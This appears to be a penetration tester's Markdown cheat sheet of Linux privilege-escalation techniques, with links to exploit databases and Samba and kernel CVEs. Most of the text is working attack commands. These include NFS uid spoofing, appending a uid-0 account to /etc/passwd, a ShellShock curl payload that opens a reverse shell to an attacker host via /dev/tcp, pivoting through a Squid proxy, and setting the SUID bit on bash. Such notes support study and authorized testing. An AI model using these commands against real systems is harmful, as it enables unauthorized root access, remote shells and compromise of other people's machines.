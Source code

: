 [Linux - Privilege Escalation](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md)<br>
[MySQL User Defined Functions](https://redteamnation.com/mysql-user-defined-functions/)

check if user = root

```shell
cat /etc/mysql/mariadb.conf.d/50-server.cnf | grep user
```

NFS mount privilege

```shell
showmount -e <target ip>
# Export list for <target ip>:
# /home/tester    *
mkdir /tmp/tester
sudo mount -t nfs <target ip>:/home/tester /tmp/tester
find /tmp/tester -ls
# file permission, match uid
# drwxr-xr-x   2 1003     1003         1234 Feb 15 13:59 /tmp/Documents
sudo useradd tester01
sudo usermod -u 1003 tester01
sudo su tester01 -c bash
ls -la /tmp/tester
```

/etc/passwd

```shell
# generating password
openssl passwd -1 -salt 1234 <password>
# openssl passwd -1 -salt 1234 test1234
# $1$1234$LedaKjyvU08i2tNM5HGSg.
# create new user
# echo "test01:\$1\$1234\$LedaKjyvU08i2tNM5HGSg.:0:0:root:/root:/bin/bash" >> /etc/passwd
# su test01
```

ShellShock

```shell
# recon
nikto -url http://<target ip>/cgi-bin
nmap <target ip> -p <target port> --script=http-shellshock --script-args uri=/cgi-bin/home.cgi
# reverse shell
curl -H "User-Agent: () { :; }; /bin/bash -c 'echo aaaa; bash -i >& /dev/tcp/<attacker ip>/<attacker port> 0>&1; echo zzzz;'" http://<target ip>/cgi-bin/home.cgi | sed -n '/aaaa/{:a;n;/zzzz/b;p;ba}'
```

[Escaping Restricted Linux Shells](https://www.sans.org/blog/escaping-restricted-linux-shells/)

```
restricted: cannot specify `/' in command names
```

Squid

```shell
# Usually use port 3128
curl --proxy http://<Squid host ip>:<port> http://<target ip>:<port>
```

using proxychains

```shell
# edit
sudo vim /etc/proxychains4.conf

#socks4  127.0.0.1 9050
#socks5  127.0.0.1 1080

http <Squid host ip> <port>
```

```shell
proxychains nmap -p- -Pn -sT localhost
proxychains nmap -p- -Pn -sT <target ip>
```

using [spose](https://github.com/aancw/spose) to scan open port

```shell
python spose.py --proxy http://<Squid host ip>:<port> --target <target ip>
```

Check if authentication is required. If authentication is required, setting up the proxy directly in Firefox will cause the browser to hang during browsing.

```shell
curl -s --proxy <Squid host ip>:<port> http://<target ip> > /tmp/test.html
firefox /tmp/test.html
```

#### Kernel

[CVE-2022-0847 (DirtyPipe) SUID binary](https://www.exploit-db.com/exploits/50808)

#### Chrome

--remote-debugging-port

```
chrome://inspect/
```

[CVE-2012-0056] memodipper

```
https://www.exploit-db.com/exploits/18411
```

```
exploit/linux/samba/trans2open
```

#### Tasks

```shell
chmod +s /bin/bash
bash -p
```

#### old machine

- Samba versions 2.2.0 to 2.2.8

```
trans2open
```

- Samba 3.0.24

```
https://github.com/mikaelkall/HackingAllTheThings/tree/master/exploit/linux/remote/CVE-2010-0926_smb_symlink_traversal
```

- Compiling the exploit binary sometimes has to be done on the same version of the machine.

- CVE-2020-1938 Ghostcat

- [CVE-2010-3904](https://www.exploit-db.com/exploits/15285) RDS privilege escalation exploit

- [sudo 1.8.31](https://github.com/mohinparamasivam/Sudo-1.8.31-Root-Exploit)
    - If possible, try to compile on the target machine.